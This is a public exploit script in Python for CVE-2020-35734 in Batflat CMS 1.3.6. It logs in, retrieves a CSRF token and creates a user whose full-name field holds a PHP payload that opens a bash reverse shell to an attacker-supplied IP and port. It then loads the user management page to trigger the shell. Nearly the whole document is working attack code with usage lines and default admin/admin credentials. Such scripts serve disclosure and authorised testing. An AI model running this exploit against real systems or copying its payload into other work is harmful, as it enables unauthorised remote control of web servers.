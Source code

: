 EXP
---

    # Exploit Title: Batflat CMS 1.3.6 - Remote Code Execution (Authenticated)
    # Date: 2020-12-27
    # Exploit Author: mari0x00
    # Vendor Homepage: https://batflat.org/
    # Software Link: https://github.com/sruupl/batflat/archive/master.zip
    # Description: https://secator.pl/index.php/2021/02/15/batflat-v-1-3-6-authenticated-remote-code-execution-public-disclosure/
    # Version: <= 1.3.6
    # CVE: CVE-2020-35734

    #!/usr/bin/python3

    import requests
    import sys
    import re
    from bs4 import BeautifulSoup
    from termcolor import colored
    from time import sleep

    print(colored('''###########################################################''',"red"))
    print(colored('''#######    Batflat authenticated RCE by mari0x00    #######''',"red"))
    print(colored('''###########################################################''',"red"))
    print("")

    if len(sys.argv) != 6:
        print((colored("[~] Usage : python3 batpwnd.py <url> <username> <password> <IP> <PORT>","red")))
        print((colored("[~] Default credentials: admin/admin","red")))
        print((colored("[~] Example: python3 batpwnd.py http://192.168.101.105/ admin admin 192.168.101.101 4444","red")))
        exit()
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    IP = sys.argv[4]
    PORT = sys.argv[5]


    #Start session
    s = requests.Session()
    headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'}


    #Authenticate
    print((colored("[+] Attempting user login","blue")))

    login_data = {
        "username": username,
        "password": password,
        "login": "",
       }

    login = s.post(url+"admin/", login_data, headers=headers)
    sleep(0.5)

    #Get token
    print((colored("[+] Retrieving the token","blue")))
    r = s.get(url+"admin/", headers=headers).content
    soup = BeautifulSoup(r, "lxml")
    token = (re.search(r't=(.*?)">Add', str(soup)).group(1))
    print((colored("[+] Token ID: " + token,"blue")))
    sleep(0.5)

    #Get URL
    print((colored("[+] Getting the add-user endpoint URL","blue")))
    r = s.get(url+"admin/users/add?t="+token, headers=headers).content
    soup = BeautifulSoup(r, "lxml")
    add_user_url = (re.search(r'action="(.*?)"', str(soup)).group(1))
    sleep(0.5)

    #Exploit
    print((colored("[+] Adding pwnd user","blue")))
    payload = "<?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/" + IP + "/" + PORT + " 0>&1'\");?>"

    add_user = {
        "username": (None, "pwnd"),
        "fullname": (None, payload),
        "description": (None, "pwnd"),
        "email": (None, "pwnd@evil.com"),
        "password": (None, "pwnd123"),
        "access[]": (None, "users"),
        "save": (None, "Save")
    }

    exploit = s.post(add_user_url, headers=headers, files=add_user)
    sleep(0.5)

    #Triggering reverse shell
    print("")
    print((colored("[+] Triggering the shell. Go nuts!","green")))
    r = s.get(url+"admin/users/manage?t="+token, headers=headers)